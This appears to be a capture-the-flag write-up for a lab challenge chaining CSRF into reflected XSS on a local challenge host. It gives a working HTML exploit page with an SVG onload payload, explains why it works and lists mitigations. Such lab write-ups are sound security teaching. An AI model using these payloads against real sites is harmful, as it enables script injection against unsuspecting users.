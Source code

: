 # CSRF to XSS Challenge Writeup

## 🧠 Challenge Description

The challenge required exploiting a **CSRF vulnerability** to trigger an **XSS attack** that executes:

```javascript
alert("PWNED")
````

on `http://challenge.localhost`.

---

## ✅ Solution

### 🧪 Exploit Code

```html
<!DOCTYPE html>
<html>
<body>
    <script>
        const payload = "<svg/onload=alert('PWNED')>";
        window.location = `http://challenge.localhost/ephemeral?msg=${encodeURIComponent(payload)}`;
    </script>
</body>
</html>
```

---

### 🔎 Explanation

* The vulnerable `/ephemeral` endpoint reflects the `msg` parameter **without proper encoding**.
* We use an **`<svg>` tag with an `onload` handler** to bypass basic XSS filters.
* The payload is **URL-encoded** to ensure it is safely transmitted.
* `window.location` is used to redirect the victim to the vulnerable page with the malicious payload.

---

### 💡 Why This Works

* SVG tags support JavaScript event handlers and are interpreted as HTML in modern browsers.
* The redirect runs in the **target origin context**, making the XSS effective.
* This method **avoids complications** that might arise with `<iframe>` usage or direct `<script>` tag injection.

---

### 🛡️ Mitigation Recommendations

* **Proper output encoding** for all reflected user input.
* Use **Content Security Policy (CSP)** headers to block inline scripts.
* Implement **CSRF tokens** for all sensitive or state-changing requests.
